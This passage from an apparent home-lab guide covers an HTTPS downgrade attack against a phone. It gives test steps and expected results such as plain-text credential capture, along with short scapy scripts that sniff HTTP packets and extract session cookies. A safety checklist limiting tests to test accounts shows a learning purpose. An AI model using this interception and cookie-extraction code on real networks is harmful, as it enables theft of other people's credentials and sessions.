 #### **Test:**
1. Mobile visits HTTPS website
2. Laptop downgrades to HTTP
3. Capture credentials in plain text

#### **Expected Results:**
- ✅ HTTPS downgraded to HTTP
- ✅ No certificate warnings
- ✅ Credentials captured in plain text
- ✅ Complete data exposure

## 📊 Monitoring and Analysis

### **Real-Time Monitoring:**
```python
# Basic traffic monitoring script
import scapy.all as scapy

def capture_packets():
    packets = scapy.sniff(iface="WiFi", count=100)
    for packet in packets:
        if packet.haslayer(scapy.HTTP):
            print(f"HTTP: {packet[scapy.HTTP]}")
        elif packet.haslayer(scapy.HTTPRequest):
            print(f"Request: {packet[scapy.HTTPRequest]}")
```

### **Session Analysis:**
```python
# Session cookie extraction
def extract_cookies(packet):
    if packet.haslayer(scapy.HTTP):
        http_layer = packet[scapy.HTTP]
        if 'Cookie' in str(http_layer):
            cookies = str(http_layer).split('Cookie: ')[1].split('\r\n')[0]
            print(f"Cookies: {cookies}")
```

## ⚠️ Safety Checklist

### **Before Each Test:**
- [ ] Laptop disconnected from real WiFi
- [ ] Mobile using test accounts only
- [ ] No real credentials used
- [ ] Time limit set (max 5 minutes)
- [ ] Emergency stop procedure ready

### **During Test:**
- [ ] Monitor for unexpected behavior
- [ ] Keep test duration short
- [ ] Don't access real accounts
- [ ] Watch for security warnings
